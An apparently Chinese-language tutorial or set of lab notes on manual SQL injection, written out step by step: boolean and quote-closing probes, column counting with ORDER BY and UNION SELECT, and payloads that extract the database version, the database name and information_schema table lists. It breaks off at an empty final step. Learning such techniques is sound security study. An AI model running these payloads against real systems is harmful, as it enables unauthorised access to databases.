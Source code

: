 # 第一步寻找交互页面

![20240914_204328](./imgs/20240914_204328.png)



# 第二步：漏出存在探测

## 1、基于报错方式

![局部截取_20240914_205320](./imgs/20240914_205320.png)

## 2、基于布尔进行测试

### 数字类型探测(能执行，没报错)

```
1and1=1
1and1=2
```

![image-20240914205100022](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240914205100022.png)



### 字符类型探测（报错，说明是''闭合）

```
'
"
```

![局部截取_20240914_205320](./imgs/20240914_205320.png)

![20240914_213029](./imgs/20240914_213029.png)

3、基于联合查询的测试

```

```



# 第三步：后台语句猜测：

```
由于没有数据库的报错信息。
我们无法确定闭合的方式：
可能性:
select * from table where id = ;
select * from table where id ='' ;
select * from table where id =" " ;
```



# 第四步 猜测显示位：

## 方法1： order by 排序方法

#### 猜测数字类型

```
1' order by 1#
```

![20240914_213630](./imgs/20240914_213630.png)

![局部截取_20240914_214216](./imgs/局部截取_20240914_214216.png)

#### 猜测字符类型（确定闭合类型与最大显示位）

```
1' order by 1 #(回响发生变化，说明闭合类型)
1" order by 1 #（回响没变化，不是这个闭合类型）

在不断尝试变换
	1' order by 2 #
	1' order by 3 #
之间，发生回响变化。
说明最大显示位为第二列

```



![局部截取_20240914_213955](./imgs/局部截取_20240914_213955.png)

![局部截取_20240914_214517](./imgs/局部截取_20240914_214517.png)

![局部截取_20240914_214712](./imgs/局部截取_20240914_214712.png)



### 方式2： union 联合查询方式：

#### 数值类型猜测

```
1 union select 1 #

1 union select 1,2,3,4,5,6,7,8,9 #

都没有变化，说明，不是数值类型
```

![image-20240914215412819](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240914215412819.png)

![局部截取_20240914_215806](./imgs/局部截取_20240914_215806.png)



#### 字符串类型猜测

```
单引号字符猜测
1' union select 1 #
1' union select 1,2 #
不断的添加显示字段数，我们看到一个变化的临界点，就是1与1，2与1,2,3这个区间
说明1,2 是最大显示位。
```

![局部截取_20240914_220006](./imgs/局部截取_20240914_220006.png)



![局部截取_20240914_220330](./imgs/局部截取_20240914_220330.png)



# 第五步：利用显示位，输出数据库函数

```sql
按照国际惯例：先看版本
1' union select 1, version() #
查看当前数据库名称
1' union select 1, database() #
```

![局部截取_20240914_220946](./imgs/局部截取_20240914_220946.png)

![局部截取_20240914_221141](./imgs/局部截取_20240914_221141.png)



```sql
访问information_schema源库
获取全部的数据库名称 与数据表名称
报错：
1' union select table_schema, table_name from information_schema.tables #

指定字符集
1' union select (table_name collate utf8_unicode_ci),(table_schema collate utf8_unicode_ci) from information_schema.tables %23
```

![局部截取_20240914_222455](./imgs/局部截取_20240914_222455.png)

# 第六步：获取当前数据库表
